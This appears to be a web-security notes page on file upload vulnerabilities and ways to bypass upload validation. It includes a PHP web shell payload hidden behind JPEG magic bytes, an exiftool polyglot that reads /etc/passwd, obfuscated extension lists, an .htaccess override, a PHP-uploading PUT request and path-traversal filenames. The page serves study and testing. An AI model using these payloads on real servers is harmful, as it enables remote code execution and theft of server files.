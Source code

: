 ```yaml
---
title: "File upload vulnerabilities"
weight: 9
---
```


# File upload vulnerabilities

{{< hint style=warning >}}
Servers typically won't execute files unless they have been configured to do so. In some cases the contents of the file may still be served as plain text.
{{< /hint >}}

## Flawed validation of FU

### Content-Type

{{< details summary="multipart form-data" >}}

When we upload binary files (like png) the content type multipart/form-data is preferred. The message body is split into separate parts for each of the form's inputs. Each part contains a `Content-Disposition` header and may also contain their own `Content-Type` header which tells the server the MIME type of the data that was submitted using this input

{{< /details >}}

Change `Content-Type` to an allow MIME type. (e.g. `image/jpeg`)

### Blacklisted extensions

* Change extensions

```sh
.php
.php3
.php4
.php5
.phtml
.phar
```

* Obfuscating file extensions

```sh
exploit.pHp
exploit.php.jpg
exploit.php.
exploit%2Ephp
exploit.asp;.jpg
exploit.asp%00.jpg
exploit.p.phphp
```

### File content validation

More secure servers try to verify that the contents of the file actually match what is expected.

**[1] Magic number: certain file types may always contain a specific sequence of bytes in their header or footer**

| File     | Hex Signature                       | ISO 8859-1   |
| -------- | ----------------------------------- | ------------ |
| PNG      | 89 50 4E 47 0D 0A 1A 0A             | ‰PNG␍␊␚␊     |
| JPG/JPEG | FF D8 FF EE                         | ÿØÿî         |
| JPG/JPEG | FF D8 FF E0                         | ÿØÿà         |
| JPG/JPEG | FF D8 FF E0 00 10 4A 46 49 46 00 01 | ÿØÿà␀␐JFIF␀␁ |
| PDF      | 25 50 44 46 2D                      | %PDF-        |

Payload example:

```php
ÿØÿî
<?php echo system($_GET['cmd']); ?>
```

***

**[2] Polyglot (on exiftool): verify certain intrinsic properties of an image, such as its dimensions.**

Create a polyglot JPEG file containing malicious code within its metadata

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

This works if you can upload a php extension file. This works why you have a real image file (that bypass restrictions) but when you open the image it's executed as php script.

## Overriding server configuration

Many servers allow configuration files in directories to override global settings. Web servers use them when present, but they're not accessible via HTTP requests.

If the file extension is blacklisted, you might trick the server into mapping a custom file extension to an executable MIME type.

* Apache servers -> `.htaccess`
* Example: `AddType application/x-httpd-php .<EXTENSION>`

## PUT method

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

## FU + PT

Defense: Servers block script execution in the file upload folder. Web servers use the filename field in `multipart/form-data` requests to determine the file's name and location. -> Change filename field combining path traversal

```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
```

{{< hint style=tips >}}
**Tip**: pay attention to stripping. In that case, obfuscate with `filename="..%2fexploit.php"`.
{{< /hint >}}

## FU without RCE

If you can upload HTML files or SVG images, you can use tags to create stored XSS payloads. If the server parses XML-based files like `.doc` or `.xls`, it could be a vector for XXE injection attacks.

## FU + Race Conditions

Some websites upload files to the main filesystem and remove them if they fail validation. This is common in sites using anti-virus software to check for malware. During the short time the file exists on the server, an attacker could potentially execute it.

* Race conditions
* Difficult to detect

### Race conditions in URL-based file uploads

If a file is loaded into a temporary directory with a randomized name, it should be impossible for an attacker to exploit any race conditions.

* If the randomized directory name is generated using pseudo-random functions like PHP's `uniqid()`, it can potentially be brute-forced.
  * Try to extend the amount of time taken to process the file by uploading a larger file
* If it is processed in chunks, you can potentially take advantage of this by creating a malicious file with the payload at the start, followed by a large number of arbitrary padding bytes.
